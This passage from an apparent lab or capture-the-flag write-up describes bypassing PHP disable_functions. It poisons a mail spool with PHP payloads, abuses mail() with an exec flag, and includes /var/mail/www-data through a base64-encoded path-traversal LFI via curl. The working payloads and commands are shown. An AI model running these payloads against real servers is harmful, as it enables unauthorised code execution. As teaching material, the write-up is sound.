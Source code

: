 ![evidence](./static/09-hacktricks-bypass.png)

And all the initial functions it mentions are blocked, but I read about the `mail / mb_send_mail` function, and I decided to try it. When I send an email with the following payload:
```shell
$ ./sendemail.sh "<?php file_put_contents('/tmp/rs.sh', base64_decode(
> 'ZWNobyB3b3JrcyA+PiAvdmFyL3d3dy9hc2NpaS9sZXRyYXMvdGVzdC50eHQK'));
> chmod('/tmp/rs.sh', 0777);
> mail('', '', '', '', '-H \"exec /tmp/rs.sh\"'); ?>"
```
Then it does not work, but I want to get some feedback. When I google `get the error message of a PHP function`, then I find [display php errors](https://stackify.com/display-php-errors/), and it says that I can use:
```php
ini_set('display_errors', 1);
```
When I first try just write a file in the `/tmp` directory, and I send the following payload:
```shell
$ ./sendemail.sh "<?php ini_set('display_errors', 1);
> file_put_contents('/tmp/test', 'testing'); ?>"
```
And I use the LFI:
```shell
$ curl "http://192.168.2.38/v.php?a=Li4vLi4vLi4vLi4vdmFyL21haWwvd3d3LWR
> hdGE="

...SNIPPED...
<b>Warning</b>: file_put_contents(/tmp/test): failed to open stream:
Operation not permitted in <b>/var/mail/www-data</b> on line <b>20</b>
...SNIPPED...
```